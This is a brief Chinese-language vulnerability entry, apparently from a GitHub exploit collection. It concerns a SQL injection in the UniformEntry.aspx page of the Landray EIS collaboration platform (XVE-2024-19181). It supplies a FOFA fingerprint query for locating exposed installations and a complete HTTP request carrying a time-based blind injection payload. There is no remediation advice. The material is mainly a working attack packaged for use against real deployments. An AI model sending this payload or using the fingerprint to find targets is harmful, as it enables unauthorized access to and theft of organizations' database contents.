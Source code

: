 # 蓝凌EIS智慧协同平台UniformEntry.aspx存在SQL注入漏洞(XVE-2024-19181)

蓝凌EIS智慧协同平台是一款专为成长型企业打造的智慧办公云平台，深度融合了阿里钉钉的功能。该平台旨在通过增强组织的协同在线、业务在线和生态在线，提升企业的工作效率和管理便捷性。 蓝凌EIS智慧协同平台存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感数据。

## fofa

```yaml
icon_hash="953405444"||app="Landray-OA系统"
```

## poc

```yaml
GET /third/DingTalk/Pages/UniformEntry.aspx?moduleid=1;WAITFOR+DELAY+'0:0:5'-- + HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0)Gecko/20100101 Firefox/109.0
```

